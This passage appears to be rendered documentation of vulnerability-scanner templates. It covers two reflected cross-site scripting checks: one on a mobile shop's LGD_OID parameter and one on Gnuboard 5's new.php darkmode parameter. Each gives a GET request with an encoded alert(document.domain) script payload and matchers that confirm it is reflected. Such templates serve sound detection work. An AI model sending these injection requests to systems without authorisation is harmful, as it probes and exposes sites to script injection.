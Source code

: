 - Method - GET

### URL

- {{BaseURL}}/mobile/shop/lg/mispwapurl.php?LGD_OID=%3Cscript%3Ealert(document.domain)%3C/script%3E

### Matchers

**Type - word**

- words
  1. LGD_OID = \<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Gnuboard 5 - Cross-Site Scripting

## Description

- Gnuboard 5 contains a cross-site scripting vulnerability via the clean_xss_tags() function called in new.php.

- severity - medium
- tags - xss,gnuboard,gnuboard5,huntr

## Requests

- Method - GET

### URL

- {{BaseURL}}/bbs/new.php?darkmode=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E

### Matchers

**Type - word**

- words
  1. header\">\<script>alert(document.domain)\</script>.css?

**Type - word**

- part - header
- words
  1. text/html
